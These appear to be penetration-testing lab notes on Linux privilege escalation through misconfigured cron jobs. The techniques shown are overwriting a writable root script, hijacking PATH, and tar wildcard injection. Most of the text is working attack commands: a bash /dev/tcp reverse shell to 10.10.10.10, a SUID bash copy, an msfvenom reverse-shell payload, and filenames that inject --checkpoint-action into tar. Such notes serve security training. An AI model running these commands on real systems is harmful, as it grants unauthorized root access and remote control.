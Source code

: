 # Cron Jobs

### File Permissions

if a script is there that runs as root and has write access we can use it to earn a reverse shell.

e.g. we have this crontab:

```
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

```shell-session
$ locate overwrite.sh
/usr/local/bin/overwrite.sh
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 42 Aug 17 07:50 /usr/local/bin/overwrite.sh
$ echo '#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1' > /usr/local/bin/overwrite.sh
```

now we run a `nc -lnvp 4444` in a terminal and we catch a reverse shell after a little while.

### PATH Environment Variable

in the cron tabe bote that the PATH variable starts with /home/user which is our user's home directory.

so we make a file with that name there and it should run it instead of the real overwrite.sh:

```shell-session
$ cd && touch overwrite.sh
$ echo '#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash' > overwrite.sh
$ chmod +x /home/user/overwrite.sh
$ # wait a little while for the cron tab to run
$ /tmp/rootbash -p
```

### Wildcards

the other script in the crontab has this content:

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Note that the tar command is being run with a wildcard (\*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

in the GTFOBins page we see `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`&#x20;

we create a payload with `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf` and upload it to the target machine. then make it executable with `chmod +x /home/user/shell.elf`.

now inspired by the GTFOBins command we make these two files:`touch /home/user/--checkpoint=1 touch /home/user/--checkpoint-action=exec=shell.elf`

When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

then we listen for the reverse shell to arive to out machine.
